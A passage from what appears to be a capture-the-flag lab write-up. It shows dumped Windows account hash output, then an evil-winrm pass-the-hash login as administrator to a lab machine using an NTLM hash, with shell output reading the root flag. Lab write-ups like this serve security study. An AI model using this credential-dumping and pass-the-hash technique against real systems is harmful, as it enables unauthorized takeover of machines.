 ```bash
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
<snip>
```
# Full Control
```bash
**evil-winrm -u administrator -H '32693b11e6aa90eb43d32c72a07ceea6' -i 10.129.63.155**
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
cbd74f640c6f3696d386a58eddc06ed5
*Evil-WinRM* PS C:\Users\Administrator\Desktop> 
```






